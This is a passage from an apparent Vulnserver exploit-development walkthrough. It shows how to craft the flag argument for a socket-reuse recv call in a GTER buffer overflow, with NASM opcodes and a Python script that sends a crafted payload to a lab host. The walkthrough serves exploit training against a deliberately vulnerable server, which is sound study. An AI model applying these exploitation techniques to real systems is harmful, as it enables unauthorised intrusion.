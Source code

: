 <div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-fd-8.png">
</div>

Our ```JMP.&WS2_32.recv``` needs values of file descriptor, buffer pointer, buffer size and flag values to work

We will push it in reverse order so that we can load it properly into ```JMP.&WS2_32.recv```

## Crafting flag argument

The default value of flag in ```JMP.&WS2_32.recv``` is ```0```

We will be using the same value and push it into the stack

To store 0 in ```EAX``` lets use ```XOR``` function

If we perform other operations to store 0, it may give ```null bytes```, so it is better to uses XOR for these kind of logic


```c
XOR (a,a) = 0
```

Lets generate opcodes for that,

```c
nasm > xor eax,eax
00000000  31C0              xor eax,eax
nasm > push eax
00000000  50                push eax
```

Adding it into our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat flag-value.py     
import socket, sys

file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

payload=b""
payload+=b"\x90"*20
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=b"\x90"*(100-len(payload))
payload+=b"\xcc"
payload+=b"\x90"*50
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
```